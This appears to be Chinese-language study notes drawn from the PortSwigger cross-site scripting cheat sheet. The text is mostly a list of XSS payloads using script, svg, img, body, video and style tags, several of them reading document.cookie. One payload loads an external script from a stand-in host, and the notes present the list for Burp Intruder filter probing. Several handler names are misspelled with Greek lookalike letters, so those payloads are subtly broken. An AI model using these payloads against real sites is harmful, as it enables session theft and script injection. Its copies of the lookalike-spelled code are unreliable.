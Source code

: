 https://portswigger.net/web-security/cross-site-scripting/cheat-sheet#event-handlers

file:///E:/Firefox/downloads/cheat-sheet-1.pdf

Event handlers：用于检测标签、属性、所有payload组合的禁用情况，在burpsuite的intruder中清单使用



### 标签

<script>标签：<script>标签是最直接的XSS有效载荷，脚本标记可以引用外部的JavaScript代码，也可以将代码插入脚本标记中

```text
<script>alert("hack")</script>   #弹出hack
<script>alert(/hack/)</script>   #弹出hack
<script>alert(1)</script>        #弹出1，对于数字可以不用引号
<script>alert(document.cookie)</script>      #弹出cookie
<script src=http://xxx.com/xss.js></script>  #引用外部的xss
```

**svg标签**

```text
<svg onload="alert(1)">
<svg onload="alert(1)"//
```

<img>标签：

```text
<img  src=1  οnerrοr=alert("hack")>
<img  src=1  οnerrοr=alert(document.cookie)>  #弹出cookie
```

**<body>标签：**

```text
<body οnlοad=alert(1)>
<body οnpageshοw=alert(1)>
```

**video标签:**

```text
<video οnlοadstart=alert(1) src="/media/hack-the-planet.mp4" />
```

**style标签：**

```text
<style οnlοad=alert(1)></style>
```